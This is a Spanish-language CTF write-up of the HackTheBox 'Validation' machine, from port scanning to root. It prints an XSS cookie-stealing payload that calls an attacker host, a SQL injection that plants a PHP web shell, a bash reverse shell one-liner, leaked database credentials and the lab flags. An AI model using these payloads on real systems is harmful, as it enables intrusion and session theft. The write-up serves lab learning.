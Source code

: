 ```yaml
---
title: 'CTF - Validation WriteUp'
date: '2022-02-08'
tags: ["CTF", "Hacking", "SQLInjection", "XSS", "#Import 2022-12-20 21:06"]
draft: false
authors: ['default']
summary: 'Reto CTF que consiste en encontrar vulnerabilidades en una máquina virtual. Se detectan puertos abiertos y se encuentra un formulario vulnerable a XSS y una inyección SQL. Se obtiene acceso y se enumeran las flags.'
images: ["/static/images/uploads/ctf-validation/validation.webp", "/static/images/uploads/ctf-validation/form.webp", "/static/images/uploads/ctf-validation/xss.webp"]
---
```


![](/static/images/uploads/ctf-validation/validation.webp)

Esta máquina es del creador de contenido de Ciberseguridad [IppSec](https://www.youtube.com/c/ippsec/videos). Podemos encontrar varias máquinas suyas en HTB y suelen ser todas bastante entretenidas.

En este caso empezamos con el escaneo de puertos.


```
nmap -p- -sS --open -T5 -vvv -n -Pn -oG allPorts 10.10.11.116
```
En mi caso, el parámetro --min-rate 5000 no me funciona bien. Seguramente tenga algo que ver la máquina virtual que utilizo, por lo que utilizo -T5 que es el modo loco de NMAP para ir tan rápido como pueda.

Descubrimos varios puertos abiertos.


```
❯ nmap -p22,80,4566,8080 -sCV -n -Pn 10.10.11.116 -oN targeted
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 d8:f5:ef:d2:d3:f9:8d:ad:c6:cf:24:85:94:26:ef:7a (RSA)
|   256 46:3d:6b:cb:a8:19:eb:6a:d0:68:86:94:86:73:e1:72 (ECDSA)
|_  256 70:32:d7:e3:77:c1:4a:cf:47:2a:de:e5:08:7a:f8:7a (ED25519)
80/tcp   open  http    Apache httpd 2.4.48 ((Debian))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.48 (Debian)
4566/tcp open  http    nginx
|_http-title: 403 Forbidden
8080/tcp open  http    nginx
|_http-title: 502 Bad Gateway
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
El puerto 8080 devuelve un http status code 502 y el 4566 un 403 forbidden, por lo que nos centramos en el puerto 80.

En la página principal aparece un formulario donde podemos introducir un nombre y elegir un país.

![](/static/images/uploads/ctf-validation/form.webp)

Parece que al rellenarlo, nos lleva a otra página con la información registrada. Probamos una inyección XSS en el campo *Username* y avanzamos.


```
alert("XSS attack");
```
Pulsamos al botón de Join Now y encontramos lo siguiente.

![](/static/images/uploads/ctf-validation/xss.webp)

Una vez que validamos que es vulnerable a ataques XSS, busco el siguiente código en el cheatsheet de [R0B1NL1N](https://github.com/R0B1NL1N/WebHacking101/blob/master/xss-reflected-steal-cookie.md).


```
var i=new Image;i.src="http://10.10.14.14:8080/?"+document.cookie;
```
Y tras poner en escucha en nuestro equipo un servidor en el puerto 8080, recibo la siguiente petición. Lo que se ve a continuación soy yo entrando a la página y enviándome mi cookie de sesión *user=020fba18d39d4e3bbda3fa8396dd4563*. De esta forma verifico que todo funciona correctamente.


```
❯ python -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
10.10.14.14 - - [08/Feb/2022 18:39:45] "GET /?user=020fba18d39d4e3bbda3fa8396dd4563 HTTP/1.1" 200 -
```
Llegados a este punto cualquier usuario que entre a esa página, nos estará enviando su cookie de sesión. Continúo buscando cosas mientras dejo el servidor corriendo aunque ya os adelanto que por ese camino, no voy a conseguir nada más.

Retomando los pasos previos, intento ver si el formulario es vulnerable a injecciones SQL y veo que el input del país es vulnerable.

Monto Burpsuite, activo el proxy en mi navegador y modifico los parámetros de la petición /POST de la siguiente manera.


```
username=anyuser&country='union select "php system($_REQUEST['cmd']); ?" INTO OUTFILE "/var/www/html/shell.php"-- -
```
Me pongo en escucha con Netcat en mi máquina en el puerto 443 y realizo una petición a la siguiente URL.


```
http://10.10.11.116/shell.php?cmd=bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.14.14%2F443%200%3E%261%0A
```
La URL está codificada. El contenido de cmd es bash -i >& /dev/tcp/10.10.14.14/443 0>&1.

Recibo la shell y lo primero que hago es ver la siguiente configuración en el directorio actual.


```
www-data@validation:/var/www/html$ cat config.php
php
  $servername = "127.0.0.1";
  $username = "uhc";
  $password = "uhc-9qual-global-pw";
  $dbname = "registration";

  $conn = new mysqli($servername, $username, $password, $dbname);
?
```
Veo las credenciales de MySQL. Podría tratar de enumerar el contenido de la base de datos, pero pruebo por casualidad si soy capaz de ponerme como sudo con la misma contraseña.


```
www-data@validation: su -
uhc-9qual-global-pw
root@validation:~#
```
Llegados a este punto, tenemos acceso a todo el contenido. Enumero las flags y listo.


```
root@validation:~# cat /home/htb/user.txt
e4be632da67c582f555571fdfa8135d6
root@validation:~# cat root.txt
459129eac316e8f9a522758f2a362493
```
